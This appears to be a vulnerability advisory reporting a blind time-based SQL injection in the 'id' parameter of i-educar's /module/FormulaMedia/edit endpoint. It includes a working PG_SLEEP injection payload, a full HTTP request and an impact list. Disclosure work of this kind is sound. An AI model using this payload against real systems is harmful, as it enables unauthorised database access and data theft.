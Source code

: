 # SQL Injection (Blind Time-Based) Vulnerability in `id` Parameter on `/module/FormulaMedia/edit` Endpoint

---

## Summary

A SQL Injection vulnerability was identified in the `/module/FormulaMedia/edit` endpoint of the _i-educar_ application, specifically in the `id` parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.

---

## Details

**Vulnerable Endpoint:** `/module/FormulaMedia/edit`  
**Parameter:** `id`

To reach the vulnerable functionality, it is necessary to navigate to:  
**Escola > Cadastros > Tipos > Regras de Avaliação > Formula de Cálculo de Média**.

<img width="1567" height="861" alt="Pasted image 20250817015830" src="https://github.com/user-attachments/assets/5f1919b2-914e-4a3d-9f41-3c39b7ac7755" />


Additionally, exploiting this vulnerability requires an account with permissions to **create/list the "Escola" menu**.

The application fails to properly validate and sanitize user input in the `id` parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.

---

## PoC

**Payload:**

`'+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+'WqeR'='WqeR`

This payload triggers a **5-second delay** in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.

**Example Request:**
```
GET /module/FormulaMedia/edit?id=1%27+AND+7097=(SELECT+7097+FROM+PG_SLEEP(5))+AND+%27WqeR%27=%27WqeR HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Cookie: [COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
```

<img width="1177" height="1049" alt="Pasted image 20250817020824" src="https://github.com/user-attachments/assets/bd45c1c5-e827-43e7-93e1-3efbb5dcc14f" />


Observe the increased server response time, confirming that the injected SQL command was executed.

---

## Impact

- **Unauthorized data access:** Reading sensitive information such as credentials, personal data, or configuration details
    
- **Database enumeration:** Extracting database schema, tables, and column details
    
- **Data manipulation:** Adding, modifying, or deleting database records
    
- **Denial of Service (DoS):** Using time-based queries to impact system availability
    
- **Potential escalation to RCE:** If combined with other vulnerabilities and specific database features
    

This vulnerability affects all users who can interact with the vulnerable parameter, and it can be exploited remotely without prior authentication if the endpoint is exposed.

## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)

